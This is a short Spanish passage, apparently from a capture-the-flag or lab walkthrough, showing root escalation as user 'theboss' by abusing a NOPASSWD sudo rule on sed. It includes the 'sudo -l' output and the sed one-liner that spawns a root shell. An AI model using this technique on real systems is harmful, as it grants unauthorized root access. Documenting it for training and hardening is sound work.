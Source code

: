 YA ESTAMOS COMO THEBOSS.

Vemos si el usuario tiene permisos SUDO:
   ```bash
$ sudo -l
Matching Defaults entries for theboss on 2a0b1be0bb8e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User theboss may run the following commands on 2a0b1be0bb8e:
    (root) NOPASSWD: /usr/bin/sed



```

Vemos **sed** con permisos SUDO  :

   ```bash
   
theboss@2a0b1be0bb8e:~$ sudo sed -n '1e exec sh 1>&0' /etc/passwd
# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**